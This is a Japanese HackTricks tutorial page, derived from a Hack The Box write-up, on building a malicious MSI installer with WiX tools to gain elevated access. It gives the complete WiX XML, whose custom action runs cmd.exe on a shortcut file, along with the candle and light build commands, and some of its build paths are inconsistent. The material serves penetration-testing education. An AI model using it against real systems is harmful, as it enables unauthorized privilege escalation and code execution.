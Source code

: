 <details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live) をフォローする。
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する。

</details>

# 悪意のあるMSIの作成とルートの取得

MSIインストーラーの作成は、wixtools を使用して行われます。具体的には、[wixtools](http://wixtoolset.org) が利用されます。別のMSIビルダーを試したが、この特定のケースでは成功しなかったことに言及する価値があります。

wix MSI の使用例を包括的に理解するためには、[このページ](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with) を参照することをお勧めします。ここでは、wix MSI の使用例を示すさまざまな例を見つけることができます。

目的は、lnkファイルを実行するMSIを生成することです。これを達成するために、次のXMLコードを使用できます（[ここからxmlを取得](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)）。
```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```
重要な点として、Package要素には、インストーラーのバージョンを指定するInstallerVersionや、パッケージが圧縮されているかどうかを示すCompressedなどの属性が含まれていることに注意することが重要です。

作成プロセスには、msi.xmlからwixobjectを生成するために、wixtoolsのツールであるcandle.exeを利用することが含まれます。次のコマンドを実行する必要があります：
```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```
さらに、投稿にはコマンドとその出力を示す画像が提供されていることを言及する価値があります。視覚的なガイダンスにはそれを参照できます。

さらに、wixtoolsの別のツールであるlight.exeを使用して、wixobjectからMSIファイルを作成します。実行するコマンドは次のとおりです:
```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```
## 参考文献
* [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
* [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
[wixtools](http://wixtoolset.org)


<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)で**フォロー**してください。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
